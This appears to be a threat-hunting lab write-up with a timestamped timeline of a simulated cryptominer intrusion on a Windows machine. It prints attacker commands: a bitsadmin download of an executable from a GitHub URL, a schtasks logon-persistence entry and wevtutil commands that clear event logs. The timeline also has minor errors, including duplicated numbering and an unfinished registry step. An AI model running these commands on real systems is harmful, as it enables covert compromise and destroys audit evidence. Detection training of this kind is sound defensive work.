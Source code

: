 <img width="1261" alt="CleanShot 2025-03-09 at 21 48 29@2x" src="https://github.com/user-attachments/assets/acf1032a-0a4f-4533-b193-158ffef3f2ac" />

---

## Chronological Events

### 1. File Download - Cryptominer via bitsadmin 
   - Timestamp: `2025-03-09T17:34:20.1108818Z`
   - Event:  File `fake-miner.exe` downloaded from a GitHub URL to `C:\Users\cmh-cyber\`
   - Action: File download detected.
   - Filepath: `C:\Users\cmh-cyber\fake-miner.exe`
   - Command: `bitsadmin  /transfer "Download" /priority normal https://github.com/clayhickman/portfolio/raw/refs/heads/main/threat-hunting-scenarios/cryptominer/fake-miner.exe "C:\Users\cmh-cyber\AppData\Local\Temp\fake-miner.exe"`


### 2. File Creation - File Renamed
   - Timestamp: `2025-03-09T17:41:05.7333922Z`
   - Event: `fake-miner.exe` renamed to `systemupdate.exe`
   - Action: File rename detected.
   - Filepath: `C:\Users\cmh-cyber\systemupdate.exe`

### 3. Process Execution - Cryptominer Execution and Scheduled Task Creation* 
   - Timestamps:
      - `2025-03-09T19:27:55.2679055Z` - `systemupdate.exe` executed.
      - `2025-03-09T19:36:39.3797145Z` - `schtasks.exe` set up.
   - Event: `systemupdate.exe` was executed, followed by a `schtasks.exe` command to set up persistence triggered on user logon.
   - Action: Process execution detected.
   - Command:  `schtasks /create /tn SystemUpdate /tr C:\Users\cmh-cyber\AppData\Local\Temp\systemupdate.exe /sc onlogon`


### 4. Network Activity - Outbound Connection 
   - Timestamp: `2025-03-10T02:11:48.1390195Z`
   - Event: Outbound network connections were made to a mining pool at `192.168.1.100:3333`.
   - Action: Connection successful.

### 5. Persistence - Registery Key Modification 
   - Timestamp: `2025-03-10T02:11:27.0935942Z`
   - Event: A registery key modification is made to establish persistence via the Run or RunOnce Registry Keys
   - Action: ... 

### 5. Anti-Forensics - Removal of Logs
   - Timestamps:
      - `2025-03-10T02:14:24.1643258Z` - `Application`
      - `2025-03-10T02:14:32.2637847Z` - `Security`
      - `2025-03-10T02:14:09.8833781Z` - `System`
   - Event: Event logs cleared via `wevtutil`.
   - Action: Log deletion detected.
   - Commands:
     - `wevtutil cl Applcation`
     - `wevtutil cl Security`
     - `wevtutil cl System`

---